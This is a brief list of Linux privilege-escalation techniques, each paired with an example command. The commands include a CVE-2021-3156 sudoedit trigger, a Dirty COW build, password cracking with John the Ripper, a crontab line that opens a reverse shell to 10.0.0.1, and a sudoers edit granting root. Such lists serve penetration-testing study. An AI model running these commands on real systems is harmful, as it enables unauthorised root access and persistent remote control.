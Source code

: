 1. SUID/SGID bit:

An attacker may search for files that have the SUID/SGID bits set, which can allow them to execute those files with elevated privileges.
Example: `find / -perm -4000 2>/dev/null`

2. Exploiting vulnerable services:

An attacker may search for vulnerable services that are running with elevated privileges, and exploit those vulnerabilities to gain root access.
Example: Exploiting the sudo vulnerability (CVE-2021-3156) to escalate privileges: `sudoedit -s '\' $(perl -e 'print "A" x 65536')`

3. Kernel exploits:

An attacker may look for kernel exploits that can allow them to escalate their privileges.
Example: Using the Dirty COW exploit (CVE-2016-5195) to gain root access: `gcc -pthread dirty.c -o dirty -lcrypt && ./dirty`

4. Password cracking:

An attacker may try to crack password hashes to gain access to a privileged account.
Example: Using John the Ripper to crack a password hash: `john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`

5. Misconfigured file/folder permissions:

An attacker may look for files or folders with misconfigured permissions that allow them to modify or execute files as a privileged user. Example: Checking for world-writable files and folders: `find / -perm -o=w -type d,f 2>/dev/null`

6. Cron jobs:

An attacker may look for cron jobs running as privileged users and modify them to execute a malicious payload. Example: Adding a malicious command to a cron job running as root: `echo "*/2 * * * * /bin/bash -i >& /dev/tcp/10.0.0.1/4444 0>&1" >> /etc/crontab`

7. Sudo misconfigurations:

An attacker may look for sudo configurations that allow them to execute commands as a privileged user. Example: Adding a malicious command to the sudoers file to gain root access: `echo "user ALL=(ALL) NOPASSWD: /usr/bin/vim" >> /etc/sudoers`
